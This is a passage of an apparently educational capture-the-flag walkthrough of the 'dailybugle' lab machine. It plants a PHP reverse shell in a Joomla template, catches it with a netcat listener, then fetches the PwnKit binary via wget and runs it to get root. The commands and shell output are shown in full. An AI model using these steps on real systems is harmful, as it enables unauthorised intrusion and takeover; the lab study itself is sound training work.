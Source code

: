 Let's login to Joomla using the credentials `jonah` and `spiderman123`.

Upon navigating to the templates section and clicking on templates, we can see the templates that are being used. In each template, we can see some php files. Let's try to get a php reverse shell using those. Navigate to index.php file in protostar template and replace the code with the following php code.

>https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Make sure to change the ip address in the php file.

Start the netcat listener and navigate to main website that's being hosted on port 80.

```shell
┌──(root㉿kali)-[~/tools]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.6.10.164] from (UNKNOWN) [10.10.59.64] 48864
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:46:50 up 34 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```

We get a foothold on the machine.

# Privilege Escalation

## Method 1

Use the PwnKit exploit to get root privileges.

>https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit

Download the binary to host machine and serve it using python http web server. Then download the binary to the target machine's /tmp directory, change the permissions to executable and run it.

```shell
python -m http.server
```

```shell
sh-4.2$ wget http://10.6.10.164:8000/PwnKit
wget http://10.6.10.164:8000/PwnKit
--2023-03-20 02:01:32--  http://10.6.10.164:8000/PwnKit
Connecting to 10.6.10.164:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

100%[======================================>] 18,040      --.-K/s   in 0.09s   

2023-03-20 02:01:32 (189 KB/s) - 'PwnKit' saved [18040/18040]

sh-4.2$ chmod +x PwnKit
chmod +x PwnKit
sh-4.2$ ./PwnKit
./PwnKit
[root@dailybugle tmp]# id
id
uid=0(root) gid=0(root) groups=0(root),48(apache)
[root@dailybugle tmp]# 
```
